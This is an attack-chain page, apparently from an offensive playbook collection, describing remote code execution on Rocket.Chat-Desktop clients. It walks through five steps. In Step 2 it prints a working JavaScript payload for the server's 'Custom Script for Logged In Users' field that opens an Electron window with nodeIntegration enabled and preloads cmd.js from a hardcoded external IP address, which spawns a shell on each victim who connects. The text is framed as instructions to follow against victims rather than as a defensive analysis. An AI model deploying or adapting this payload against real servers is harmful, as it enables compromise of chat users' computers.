

---
tags:
  - rce
  - electron
  - rocket-chat
  - javascript
  - custom-scripts
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
commands: []
platforms:
  - Desktop
  - Electron
  - Windows
complexity: medium
procedures:
  - '[[procedures/Inject-Malicious-Custom-Script-in-Rocket-Chat-Server]]'
  - '[[procedures/Trigger-RCE-via-Rocket-Chat-Desktop-Connection]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
description: >-
  An attack chain exploiting a vulnerability in Rocket.Chat-Desktop by injecting
  malicious JavaScript via the server's administration panel, leading to
  arbitrary code execution on the victim's machine through an Electron
  BrowserWindow with nodeIntegration enabled.
skill_level: intermediate
impact_level: high
id: 87bc1e45-fd07-46fe-a6d6-7e9c8629b106
created_at: '2025-12-14T17:23:42.510Z'
updated_at: '2025-12-14T17:23:42.510Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Remote Code Execution in Rocket.Chat-Desktop via Malicious Custom Script Injection

Multi-stage attack chain demonstrating a complete attack workflow exploiting improper handling of custom scripts in Rocket.Chat, leading to remote code execution on the desktop client.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for server administration
- Access to Rocket.Chat server administration panel
- Control over a remote server hosting the preload script (e.g., for cmd.js)

### Target Environment

- Rocket.Chat server with administration access
- Rocket.Chat-Desktop client (Electron-based) on Windows or similar desktop OS
- Network connectivity between client and server

### Initial Access Requirements

- Administrative credentials on the Rocket.Chat server
- Victim using the desktop client to connect to the server
- No prior client-side access needed; server compromise enables client exploitation

## Detailed Attack Procedures

### Step 1: Access Administration Panel
procedure: [[procedures/Inject-Malicious-Custom-Script-in-Rocket-Chat-Server]]

**Objective**: Gain access to the server's configuration to prepare for script injection.

**Instructions**: Log in to the Rocket.Chat server as an administrator and navigate to the administration panel. Go to Administration » Layout » Custom Scripts » Custom Script for Logged In Users. This step sets up the environment for injecting the malicious payload.

**Expected Output**: Administration panel interface loaded, ready for script configuration.

**Success Indicators**:
- Successful login to admin panel
- Custom Scripts section accessible

### Step 2: Insert Malicious Script
procedure: [[procedures/Inject-Malicious-Custom-Script-in-Rocket-Chat-Server]]

**Objective**: Inject JavaScript that creates a new BrowserWindow with nodeIntegration enabled and loads a preload script from an attacker-controlled server.

**Instructions**: In the Custom Script for Logged In Users field, insert the following JavaScript code:

```javascript
window.open('data:text/html,<h1>PWNED</h1>', '', ['nodeIntegration=true', 'preload=\\45.155.173.235\data\cmd.js'].join(','))
```

This script uses window.open to spawn a new Electron window with nodeIntegration=true, allowing Node.js integration, and preloads a script from the attacker's server (replace IP and path with your controlled server hosting cmd.js, which can spawn CMD.exe).

**Expected Output**: Script inserted into the configuration field without errors.

**Success Indicators**:
- Script code visible in the input field
- No syntax errors on preview

### Step 3: Save Changes
procedure: [[procedures/Inject-Malicious-Custom-Script-in-Rocket-Chat-Server]]

**Objective**: Apply the malicious configuration to the server, making it active for connected clients.

**Instructions**: Click the "Save changes" button in the administration panel to persist the custom script.

**Expected Output**: Confirmation message indicating changes saved successfully.

**Success Indicators**:
- Save confirmation displayed
- Script now active for logged-in users

### Step 4: Launch Desktop Client and Connect
procedure: [[procedures/Trigger-RCE-via-Rocket-Chat-Desktop-Connection]]

**Objective**: Have the victim connect to the compromised server, triggering the custom script execution in the Electron client.

**Instructions**: Instruct or wait for the victim to open the Rocket.Chat-Desktop application and connect to the server. Upon connection and login, the custom script executes automatically in the client's Electron context.

**Expected Output**: Client connects successfully, and the malicious window.open call is triggered.

**Success Indicators**:
- Client logs in without errors
- Network traffic shows connection to server

### Step 5: Observe Arbitrary Code Execution
procedure: [[procedures/Trigger-RCE-via-Rocket-Chat-Desktop-Connection]]

**Objective**: Confirm the preload script executes, leading to arbitrary code like spawning a command shell on the victim's machine.

**Instructions**: Monitor the victim's machine or wait for indicators of compromise. The preload script (cmd.js) from the attacker's server loads and executes, for example, spawning CMD.exe.

**Expected Output**: CMD.exe window pops up on the victim's desktop, or other executed code effects visible.

**Success Indicators**:
- Command shell or payload effects observed
- Network requests to attacker's preload server

## Attack Chain Summary

### Key Achievements

1. Server-side injection of malicious JavaScript via admin panel
2. Exploitation of Electron's BrowserWindow creation without proper sanitization
3. Remote arbitrary code execution on desktop client, bypassing typical web restrictions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01*
